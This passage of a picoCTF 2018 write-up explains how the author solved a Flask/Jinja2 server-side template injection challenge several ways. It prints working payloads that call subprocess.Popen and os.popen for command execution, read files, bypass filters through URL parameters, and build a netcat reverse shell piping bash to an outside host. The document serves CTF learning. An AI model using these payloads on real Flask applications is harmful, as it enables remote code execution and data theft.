'six._LazyDescr'>, <class 'sqlalchemy.ext.declarative.clsregistry._GetTable'>, <class 'textwrap.TextWrapper'>, <class 'collections.abc.Awaitable'>, <class 'flask_wtf.recaptcha.validators.Recaptcha'>, <class 'float'>, <class 'calendar._localized_day'>, <class '_socket.socket'>, <class 'inspect._empty'>, <class 'email.feedparser.FeedParser'>, <class 'codecs.IncrementalEncoder'>, <class 'click.utils.LazyFile'>, <class 'pickle._Framer'>, <class 'werkzeug.wsgi.SharedDataMiddleware'>, <class 'sqlalchemy.sql.base.DialectKWArgs'>, <class 'sqlalchemy.orm.session.SessionTransaction'>, <class '_pickle.UnpicklerMemoProxy'>, <class 'function'>, <class 'logging.Filter'>, <class '_frozen_importlib.ModuleSpec'>, <class 'flask_sqlalchemy.model.Model'>, <class 'sqlalchemy.orm.events._EventsHold.HoldEvents'>, <class 'sqlalchemy.orm.base.InspectionAttr'>, <class 'werkzeug.datastructures.IfRange'>, <class 'flask.blueprints.BlueprintSetupState'>, <class 'itertools.product'>, <class 'pkg_resources._vendor.pyparsing.ParseResults'>, <class 'flask_bootstrap.CDN'>, <class 'itertools.chain'>, <class 'difflib.Differ'>, <class 'sqlalchemy.sql.selectable.HasSuffixes'>, <class 'method'>, <class 'jinja2.nodes.Node'>, <class 'werkzeug.exceptions.Aborter'>, <class 'collections.abc.Hashable'>, <class 'blinker._utilities._symbol'>, <class 'sqlalchemy.event.base._UnpickleDispatch'>, <class 'sqlalchemy.engine.interfaces.ExceptionContext'>, <class 'werkzeug.wrappers.BaseResponse'>, <class 'jinja2.utils.Joiner'>, <class 'six._SixMetaPathImporter'>, <class 'sqlalchemy.orm.instrumentation.InstrumentationFactory'>, <class 'sqlite3.PrepareProtocol'>, <class 'calendar.Calendar'>, <class 'sqlalchemy.sql.annotation.Annotated'>, <class 'sqlalchemy.engine.url.URL'>]
```

Note that `<class 'subprocess.Popen'>` is one of these subclasses. Some use of the `find()` command for strings in Python shows that I want item number 206.

`{{''.__class__.mro()[1].__subclasses__()[206]}}`

yields

`<class 'subprocess.Popen'>`.

`{{''.__class__.mro()[1].__subclasses__()[206]('ls', shell=True)}}`
 yields

`<subprocess.Popen object at 0x7efffc316080>`.

Great! We've executed a shell command. Now, I want a reverse shell: to get remote code execution, I need to pipe input in from a port, run a command on the box, and pipe the output back out to a remote server. So how shall I do this?

I conducted a quick test locally:



One way to do this (as shown) is to have the remote server execute a shell command that listens on an input port, pipes the input to bash, and pipes the output from bash to a `netcat` command to another server. I just need to send the output to an IP address and port that's not behind a NAT. PicoCTF provides me with access to a shell on their server, so I'll just use that.

So, now I want:

`{{''.__class__.mro()[1].__subclasses__()[206]('nc -lv 6032 | bash | nc 2018shell2.picoctf.com 6036', shell=True)}}`

which yields a flaskcard with value: `<subprocess.Popen object at 0x7efffc2cf198>`.

Then I listen on `2018shell2.picoctf.com` with `nc -lv 6036`, and from my own terminal just run `nc 2018shell.picoctf.com 6032`.

Here are the results:



And I'm 900 points up!

### Comparison to Other Approaches

I am new to the technique, and I took a fairly complex approach. I realized there were easier ways to solve this problem, so I took advantage of the fact that there were 10 solutions posted to CTF Time, and studied all of them. I consolidated the solutions into three main approaches, then made sure I could reproduce all three and understood exactly how each method works.


[This write-up](https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/web-exploitation/#flaskcards-and-freedom) references a really useful [cheat cheat](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti), from which I learned several additional ways to solve the problem.

The first is via the `file` class: I can find a Python object that's a file and which has the `open` method available. I replicated `tcode2k16`'s approach, using the following input string:

`{{''.__class__.mro()[1].__subclasses__()[662]('flag').open().read()}}`

That displays the flag contents as an actual flashcard. When replicating this technique, I spun up a local Flask application with an SSTI vulnerability in order to be able to read the server error messages and learn exactly how this exploit works. (Among other things, I learned that to use `dir` and `help` to learn about various Python classes, I have to do so locally. Entering `dir(''.__class__.mro()[1].__subclassses__()[662])`, for example, will make Jinja2's engine throw an "undefined method" error.) Flask applications run with Python2 will usually have access to the `file` class, and with Python3 I had access to `click.utils.LazyFile`, which also can open and read arbitrary files. Note that I had to guess the name of the file containing the flag for this approach to work. `tcode2k16` actually uses `/proc/self/cwd/flag` for the filename. It's a little tricker to make that syntax work, as forward slashes appear to produce errors for `Jinja2`'s templating engine. `tcode2k16` gets around the problem by placing the forward slashes in the URL in the form of arguments, and parsing the arguments with the template injection string as follows:

```
template string: {{((''|attr(request.args.param)|attr(request.args.param2))[1]|attr(request.args.param3))()[197](request.args.param4).open().read()}}

URL: http://2018shell2.picoctf.com:46628/list_cards?param=__class__&param2=__mro__&param3=__subclasses__&param4=/proc/self/cwd/flag
```

My equivalent injection string was a little simpler:

`{{''.__class__.mro()[1].__subclasses__()[662]('flag').open().read()}}`

Replicating this approach was a great learning experience for me.

[Liuhack](https://github.com/liuhack/writeups/blob/master/2018/picoCTF/Flaskcards_and_Freedom/README.md) uses an exploit string that I reproduced on the server and got to work:

`{{''.__class__.mro()[1].__subclasses__()[3].__init__.__globals__['sys'].modules['os'].popen("cat flag").read()}}`

What this approach does is to take an object that has an `__init__` function, then access the `popen` method of the `os` module of the `sys` module in what I think is Python 3.5. That method produces an object of type `<os._wrap_close>`, which can be printed with `read()`. It's elegant because it gets the flag directly without requiring me to set up listeners. The problem that I found with this approach was that it wasn't obvious to me from playing around with the Python classes in a local terminal that I could easily traverse my way from a subclass of `object` to `popen` via `__init.__globals__[sys'].modules['os']`. LiuHack suggests that the approach is possible for many or even most classes, but I was not able to easily see that by examining a number of classes with `dir()` and `.__dict__`.

[Another](https://github.com/Dvd848/CTFs/blob/master/2018_picoCTF/Flaskcards.md) way to do this is to access the `builtins` and get to `os` and `open` from there. `Dvd848` picks a particular class and is able to initialize it with no arguments and then get the `__globals__` attribute via `_method.__globals__`. I did not have much luck with that, pretty much for the same reason: the server environment has changed since that write-up and the author may have chosen a really specific class.

I did have better luck with the following:

`url_for.__globals__['os'].popen("cat flag").read()`

`url_for` is a Flask function that has access to a set of globals that are mostly functions. The approach is referenced by [these](https://www.youtube.com/watch?v=_GjEn382qLE) [two](https://ctftime.org/writeup/11754) write-ups.

My original question during the competition had involved how to redirect the output from `subprocess.Popen` back into the Flask application instead of to the terminal that gets opened. Knowing how to do that would have avoided the need for me to run a command to listen on a port, pipe the input into `bash` and then pipe the output from `bash` back out to a remote location. [This write-up](https://qiita.com/mayoneko/items/1d2d230d4246fde9d0bc) gave me the answer I wanted: in calling `Popen`, I can specify `stdout = -1`, which sends the output from the shell command back into whatever pipe called `Popen` in the first place. In this case, that's the Flaskcard application. Taking my original exploit, I can now modify it as follows:

`{{''.__class__.mro()[1].__subclasses__()[206]('ls -lah', stdout=-1, shell=True).stdout.readlines()}}`

gives me an output of

```
[b'total 72K\n', b'drwxr-x--- 3 hacksports flaskcards-and-freedom_0 4.0K Mar 25 19:15 .\n', b'drwxr-x--x 556 root root 52K Mar 25 19:58 ..\n', b'drwxr-xr-x 3 root root 4.0K Mar 25 19:15 app\n', b'-rw-rw-r-- 1 hacksports hacksports 38 Mar 25 19:15 flag\n', b'-rw-rw-r-- 1 hacksports hacksports 61 Mar 25 19:15 server.py\n', b'-rwxr-sr-x 1 hacksports flaskcards-and-freedom_0 105 Mar 25 19:15 xinet_startup.sh\n']
```

Then I can send

`{{''.__class__.mro()[1].__subclasses__()[206]('cat flag', stdout=-1, shell=True).stdout.readlines()}}`,

which gives me the flag yet another way:

`b'picoCTF{R_C_E_wont_let_me_be_33c4aa61}']`.

To recap, after reviewing the ten write-ups for this problem on CTF Time I've gotten the flag four different ways now: first, by calling `subprocess.Popen()` as a subclass of `object`, getting a shell, listening on a port, piping the input into `bash`, and then piping the output to a remote server. Second, by calling `subprocess.Popen()` and redirecting the output from the shell command back into the Flaskcard application. Third, by finding an object of type `file` (actually `LazyFile`) in the object hierarchy, calling its `open` method, guessing the name of the flag file, and calling `read()`. And fourth, by using the `url_for` method, getting to `__globals__` from there, and accessing the `popen` method of the `os` module. This was a great problem as it taught me quite a bit about the Python object hierarchy, Jinja2 templating, and redirecting `bash` output to a remote server once I get a shell. In this case, I learned even more by writing it up than I did by solving the problem to begin with.

### For further study

[Here's](https://0day.work/jinja2-template-injection-filter-bypasses/) a blog post on Jinja2 template injection filter bypassing.
